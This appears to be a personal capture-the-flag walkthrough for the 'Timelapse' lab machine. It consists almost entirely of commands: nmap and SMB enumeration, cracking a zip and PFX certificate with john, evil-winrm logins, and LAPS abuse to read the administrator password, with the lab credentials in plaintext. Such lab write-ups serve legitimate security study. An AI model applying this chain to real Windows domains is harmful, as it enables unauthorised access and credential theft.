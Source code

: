 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Timelapse
# 14/4/2023
10.10.11.152

----------------------------------------------------
# nmap
----------------------------------------------------
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-04-14 18:16:26Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?

----------------------------------------------------
# enum
----------------------------------------------------
smbclient -L //10.10.11.152/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 

smbclient //10.10.11.152/Shares
smb: \Dev\> get winrm_backup.zip 

zip2john winrm_backup.zip > zip.john
john zip.john -wordlist:/usr/share/wordlists/rockyou.txt

supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     

openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes

python3 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.john
john pfx.john -wordlist:/usr/share/wordlists/rockyou.txt
thuglegacy

evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S

type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

net user svc_deploy

----------------------------------------------------
# priv esc
----------------------------------------------------
upload AdmPwd.PS
https://github.com/ztrhgf/LAPS

Find-AdmPwdExtendedRights -identity *

Find-AdmPwdExtendedRights -identity 'Domain Controllers' | select-object ExtendedRightHolders

get-admpwdpassword -computername dc01 | Select password

└─$ evil-winrm -i 10.10.11.152 -u administrator -p '/1B@QZe3{BAAwzs%KY$pTb7d' -S

evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

Get-ADComputer DC01 -property 'ms-mcs-admpwd'

;cV(08qO$#wTC!G+OZICB0L8
evil-winrm -i timelapse.htb -S -u administrator -p ';cV(08qO$#wTC!G+OZICB0L8'